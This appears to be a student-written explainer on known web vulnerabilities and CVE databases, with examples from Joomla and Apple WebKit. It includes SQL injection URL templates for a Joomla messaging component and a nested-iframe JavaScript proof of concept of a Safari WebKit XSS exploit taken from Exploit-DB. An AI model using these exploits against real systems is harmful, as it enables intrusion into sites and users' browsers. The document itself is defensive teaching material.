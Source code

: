 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including cross site scripting, SQL injection, insecure file uploads, 
authentication bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities to a Database?
----------------------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. That being said, no software has been proven to be airtight, and 
vulnerabilities are being released every day to help combat mischievous 
attackers. These applications can be developed by anyone from small, upcoming 
businesses to software powerhouses. Below are two applications that are 
known to have vulnerabilities, including information on how to combat them. 

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla!, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Because their product has been used to create millions of websites, 
security should be a primary concern to protect their partners and their 
partners' users. That being said, there is an extensive list in the Exploit 
Database with recent vulnerabilities with the Joomla application. Known 
vulnerabilities include:

**SQL Injection**

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. Below is an example of how the SQL injection could 
be implemented into a URL to access another person's messages [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

To protect against this, the web application should have steps in place to 
remove system database privileges from normal users. This will prevent an 
attacker from making their own queries into the database, assuming they haven't 
found a way to bypass the authentication of the database. 

**Insecure File Upload**

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. In order to prevent this type of vulnerability, the JEM should 
restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. Developers can use Apple WebKit to create their own web browsers. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

**Use After Free**

Use after free is an issue that targets memory corruption, attempting to access 
memory after it has been freed by the RAM. This attack can cause the 
application, or web browser, to crash. In more serious instances, this 
vulnerability can lead to the attacker remotely executing code on the user's 
computer [UAF]_. This vulnerability was found in regards to Apple's WebKit in 
the HTMLFormElement::reset() function. There was a flaw in how the software 
accessed the associated elements variable, which was able to be modified by the 
reset function. By adding custom elements to the variable while it is iterated, 
the already-existing elements are pushed forward, letting the attacker execute 
his or her own data [EDB]_. 

Prevention of Known Vulnerabilities
-----------------------------------

In order to protect your web projects, there are plenty of companies that 
perform security tests that spot weak points in your code. They can pull from 
CVE databases in order to attack your code in every which way, letting you know 
exactly how attackers will attempt to breach your security. Utilizing their 
services, as well as performing security tests of your own, is paramount in 
creating a safer, more secure internet. There are also update options offered 
by many CVE database sites, notifying you of any recent breaches in applications 
like yours. Therefore, using these databases and checking for past security 
exploits is the best way to prevent attackers from manipulating your website via 
known vulnerabilities. 


Works Cited
-----------
.. [JOO] "`Joomla.org." <https://www.joomla.org/>`_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [EDB] "`Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [UAF] Stroud, Forrest. "`Use After Free." <http://www.webopedia.com/TERM/U/use-after-free.html>`_ What Is Use After Free? Webopedia Definition. N.p., n.d. Web. 26 Feb. 2017."
.. [AWK] "`WebKit." <https://webkit.org/>`_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "`What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.
